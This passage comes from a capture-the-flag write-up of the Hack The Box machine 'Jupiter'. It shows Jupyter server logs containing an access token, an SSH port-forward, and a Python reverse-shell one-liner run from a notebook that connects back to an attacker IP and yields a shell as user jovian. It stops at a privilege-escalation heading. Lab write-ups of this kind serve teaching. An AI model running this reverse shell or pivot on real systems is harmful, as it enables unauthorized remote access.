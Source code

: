 ```bash
[I 13:16:50.496 NotebookApp] 302 POST /login?next=%2F (127.0.0.1) 0.980000ms
[I 13:16:50.512 NotebookApp] 302 GET / (127.0.0.1) 0.380000ms
[I 11:01:13.191 NotebookApp] 302 GET / (127.0.0.1) 3.150000ms
[I 11:04:17.407 NotebookApp] 302 POST /login?next=%2F (127.0.0.1) 2.080000ms
[I 11:04:17.413 NotebookApp] 302 GET / (127.0.0.1) 0.350000ms
[I 11:04:41.339 NotebookApp] 302 POST /login?next=%2F (127.0.0.1) 1.390000ms
[I 11:04:41.429 NotebookApp] 302 GET / (127.0.0.1) 0.380000ms
[I 11:08:03.111 NotebookApp] Creating new notebook in
[I 11:08:04.614 NotebookApp] Kernel started: 963e73ea-12e7-4dd5-8096-5bb1b2ef993a, name: python3
[I 11:10:04.589 NotebookApp] Saving file at /Untitled.ipynb
...
...
...
    To access the notebook, open this file in a browser:
        file:///home/jovian/.local/share/jupyter/runtime/nbserver-1178-open.html
    Or copy and paste one of these URLs:
        http://localhost:8888/?token=419e80aa59739d1a9e4fa5adcce88720fbfdde0e0b1fd5e2
     or http://127.0.0.1:8888/?token=419e80aa59739d1a9e4fa5adcce88720fbfdde0e0b1fd5e2
```

Ok, nothing else found here, now going to the web portal of port `8888` (the others ports doesn't work at all): `z➤ ssh -L 8888:127.0.0.1:8888 juno@jupiter.htb`
{{< limg "/i/2023-08-21_10-29.png" "Jupyter notebook service" >}}

#### Pivoting to `jovian`

Interesting, by opening an existing `.ipynb` notebook and opening a rev shell I got the shell for user `jovian`:

Shell
```py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",55556));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```
{{< limg "/i/2023-08-21_10-32.png" "rev shell from jupyter" >}}


```bash
.../htb/p8/jupiter➤ nc -lvnp 55556
Connection from 10.10.11.216:53982
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

jovian@jupiter:/opt/solar-flares$ id
id
uid=1001(jovian) gid=1002(jovian) groups=1002(jovian),27(sudo),1001(science)
jovian@jupiter:/opt/solar-flares$ pwd
pwd
/opt/solar-flares
jovian@jupiter:/opt/solar-flares$
```

#### Priv Escalation
